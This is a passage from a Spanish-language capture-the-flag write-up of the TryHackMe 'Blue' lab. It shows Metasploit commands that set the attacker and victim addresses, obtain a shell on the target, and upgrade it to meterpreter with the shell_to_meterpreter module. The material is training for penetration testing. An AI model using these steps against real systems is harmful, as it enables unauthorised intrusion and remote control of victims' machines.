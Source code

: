 ```      
set LHOST <nuestra IP> 
set RHOST <IP víctima>
```

![7](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/main/assets/2021-11-15-Blue-TryHackMe/7.png){:class="blog-image" onclick="expandImage(this)"} 

Una vez hemos configurado dichos parámetros, bastará con empezar con el ataque, consiguiéndonos _Metasploit_ una shell dentro de la máquina víctima.

![8](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/main/assets/2021-11-15-Blue-TryHackMe/8.png){:class="blog-image" onclick="expandImage(this)"} 

Una vez llegados a este punto, _TryHackMe_ nos pide convertir nuestra shell actual, en `meterpreter`, para ello tendremos que abandonar nuestra sesión actual `Ctrl + Z`.

Una vez fuera, tendremos que nuevamente buscar dentro de _Metasploit_, un módulo que nos permita pasar de una shell a `meterpreter`.

```      
search shell_to_meterpreter
```

Una vez hemos encontrado un módulo que nos sirva, tendremos que utilizarlo.

```      
use post/multi/manage/shell_to_meterpreter
```
